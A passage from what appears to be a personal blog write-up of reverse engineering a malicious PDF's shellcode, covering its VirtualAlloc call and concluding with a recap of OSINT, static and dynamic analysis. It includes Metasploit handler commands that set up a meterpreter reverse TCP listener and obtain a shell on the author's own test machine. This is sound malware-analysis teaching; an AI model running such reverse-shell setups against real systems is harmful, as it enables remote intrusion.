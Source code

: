 The next library called is VirtualAlloc, which sets up an area in memory to store the data.

{% highlight c %}
  LPVOID VirtualAlloc(
    [in, optional] LPVOID lpAddress        0,
    [in]           SIZE_T dwSize           0x61616161,
    [in]           DWORD  flAllocationType 0x1000,
    [in]           DWORD  flProtect        0x40
  );
{% endhighlight %}

This part posed some challenges as I experimented with various data types and lengths without success. The next API call would typically be another recv() to read more data into the same buffer. Then, I recalled that this payload might have been generated with Metasploit. So, why not use their tool to start a reverse shell listener? Perhaps there's some exchange of bytes required to establish a complete connection or reverse shell that I don't fully know yet!

Loading up msfconsole, we set our configuration as:

```shell
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.0.12
set LPORT 4444
exploit
```

Now, instead of breaking on our library check, we'll undo it and allow the program to continue.

Look at that! Success! As a wise man once said, "Bob's your uncle!" :)

![[Pasted image 20240515192941.png]]

We now have a full shell on the remote host, our Windows machine.

# Conclusion
Reflecting on our journey, what once seemed like an enigma now unfolds with clarity. Yet, let's not forget our humble beginnings. We embarked on this adventure armed with curiosity, diving into a public malware database driven by community collaboration. From there, we took the first PDF malware program we stumbled upon. With that in hand, we delved into OSINT (Open Source Intelligence) research, scouring platforms like VirusTotal and Tria.ge to glean insights and unravel the program's characteristics and behaviors.

Our journey didn't stop there. We dove deeper into the intricate world of static analysis, meticulously dissecting the file, scrutinizing the PDF's structure, and even extracting snippets of malicious JavaScript code concealed within its layers.

But that was merely the surface. To truly comprehend the inner workings of our discovery, we ventured into the realm of dynamic analysis. Armed with our newfound understanding, we compiled our own program to simulate the payload's behavior. This hands-on approach allowed us to meticulously step through each stage of program execution, decoding the payload's intentions at the byte level.

In the end, what may seem like a simple progression belies the complexity and depth of our investigative journey. It's a testament to the multifaceted nature of reverse engineering and the dedication required to unveil the mysteries lurking within digital landscapes.

Thanks for reading! :)
-AJ

